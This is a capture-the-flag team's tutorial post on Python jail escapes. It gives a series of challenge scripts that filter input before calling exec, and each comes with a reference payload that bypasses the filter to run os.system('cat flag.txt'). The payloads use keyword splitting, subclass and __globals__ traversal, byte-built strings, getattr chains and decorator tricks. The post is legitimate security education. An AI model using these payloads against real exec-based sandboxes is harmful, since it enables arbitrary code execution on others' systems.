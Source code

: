 ```yaml
---
layout: post
title: "Python Jail Escapes"
categories: learning
author: Liam
---
```


At our weekly meetings we had a talk about Python jail escapes, aka. getting around restrictions that make it hard to execute `os.system('cat flag.txt')`. In the talk we went through challenges, that we present here as exercises to practice. Starting very simple and then digging more and more into python internals.

Solve them yourself, by copying the script and providing input that executes `os.system('cat flag.txt')`. Afterwards you can compare your solution to the one we had in mind, there are always different ways. For some reference solutions it is relevant to mention, that we used Python 3.11.2.

Learning about Python Jail Escapes it is helpful to ask questions like:
* How are modules and classes implemented in Python?
* What are frozen modules?
* How does syntactic sugar get replaced? You may start at `import something` or `array[5]`.
* How many ways are there to call a function/method other than `lmao()`/`lm.oa()`?

## Happens way too often

```python
import string

code = input('Your scientific computation: ')

code = ''.join([c for c in code if c in string.printable])

forbidden = ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']
for f in forbidden:
    code = code.replace(f, '')
exec(code)
```

<details>
<summary>Reference Solution</summary>

No need for recursivity. This is Python not Haskell.

<code>imosport ooss; ooss.sysostem('cat flag.txt')</code>
</details>

## Correct, or jail

```python
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']:
    if keyword in code:
        print('You are jailed!')
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

There is a `for/else` in Python???!!? Ah, and obviously:

<code>globals()['__built'+ 'ins__'].__dict__['__im' + 'port__']('o' + 's').__dict__['sys' + 'tem']('cat flag.txt')</code>
</details>

## Only causing trouble

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Based solution:

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[''.join(['sy', 'stem'])]('cat flag.txt')</code>
</details>

## Ahhhhhhhhhh, no more fun for you

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+', '"', "'"]:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Are there simpler solutions to construct a string? Yes. Does this one get you the flag? Also, yes. So why are you asking?

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[().__str__()[:0].join([i.to_bytes().decode() for i in [115, 121, 115, 116, 101, 109]])](().__str__()[:0].join([i.to_bytes().decode() for i in [99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116]]))</code>
</details>

## Now it is over, isn't it?

```python 
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins',
                '.', '[', ']']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

It is not over until you remove `getattr`:

<code>getattr(getattr(getattr(globals(), 'get')('__bu' + 'iltins__'), '__imp' + 'ort__')('o' + 's'), 'sys' + 'tem')('cat flag?txt')</code>
</details>




## Treebox

From [Google Capture The Flag 2022](https://ctftime.org/event/1641/)

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

<details>
<summary>Reference Solution</summary>

Our solution, specifically the solution of Benedikt, looked something along the lines of:

<code>
class NotACall(Exception):
    __add__ = exec


try:
    raise NotACall
except NotACall as e:
    e + 'import os; os.system("cat flag.txt");exit(0)'
--END
</code>
</details>

## Treebox is no match for Robin

This a modified version of the treebox challenge, here to point out a particular way to solve the challenge.

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  ### Begin: Additional restriction
  if '(' in line or ')' in line:
        print("ERROR: Parentheses are not allowed")
        exit(1)
   ### End: Additional restriction
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
else:
    print("ERROR: Code is not safe")
    exit(1)
```

<details>
<summary>Reference Solution</summary>

Also, no match for Robin, we yet have to find anything that is.

Solution by Robin Jadoul:
<code>
# https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
    pass
--END
</code>
</details>
